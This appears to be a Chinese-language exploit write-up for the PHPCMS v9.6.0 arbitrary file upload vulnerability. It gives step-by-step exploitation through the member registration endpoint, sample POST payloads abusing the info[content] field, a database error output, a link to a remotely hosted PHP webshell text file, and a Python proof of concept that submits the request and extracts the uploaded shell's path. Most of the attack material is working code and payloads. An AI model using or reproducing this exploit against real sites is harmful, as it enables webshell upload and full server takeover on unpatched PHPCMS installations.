




PHPCMS v9.6.0 任意文件上传漏洞
====================================

- [PHPcms9.6.0 最新版任意文件上传漏洞(直接getshell) ---- Freebuf](http://www.freebuf.com/vuls/131648.html)
	- Date: 2017-04-11
- [PHPCMS v9.6.0 任意文件上传漏洞分析 Seebug-paper](https://paper.seebug.org/273/)
	- Date: 2017-04-12
- [Phpcms v9漏洞分析 ---- Freebuf](http://www.freebuf.com/vuls/131809.html)
	- Date: 2017-04-17

#### 利用过程

1、首先在本地搭建一个php环境,在根目录下新建一个txt文本文件里面写上php一句话
```
http://mirrors.ichenfei.com/webshell/1.txt
```
2、进入注册页面,填写注册信息,打开`burpsuite`抓包,提交注册信息



3、将抓取的注册包发送到`Repeater`

##### 利用方式2:

使用`Hackbar`插件
```SQL
http://localhost/phpcms/phpcms_v9.6.0_UTF8/index.php?m=member&c=index&a=register&siteid=1
postdata:
siteid=1&modelid=11&username=avafc121&password=aasgfaewee311as&email=123456@qq.com&info[content]=&dosubmit=1&protocol=

MySQL Query : INSERT INTO `phpcmsv960`.`v9_member_detail`(`content`,`userid`) VALUES ('','5')
MySQL Error : Unknown column 'content' in 'field list'
MySQL Errno : 1054
Message :
Need Help?
```


参考poc:
```
siteid=1&modelid=11&username=zf1agac121&password=aasgfaewee311as&email=a1ea21f94@qq.com&info[content]=&dosubmit=1&protocol=
```


可以看到repeater里MYSQL query成功插入



POC:
```python
import re
import requests


def poc(url):
    u = '{}/index.php?m=member&c=index&a=register&siteid=1'.format(url)
    data = {
        'siteid': '1',
        'modelid': '1',
        'username': 'test',
        'password': 'testxx',
        'email': 'test@test.com',
        'info[content]': '',
        'dosubmit': '1',
    }
    rep = requests.post(u, data=data)

    shell = ''
    re_result = re.findall(r'&lt;img src=(.*)&gt', rep.content)
    if len(re_result):
        shell = re_result[0]
        print shell
```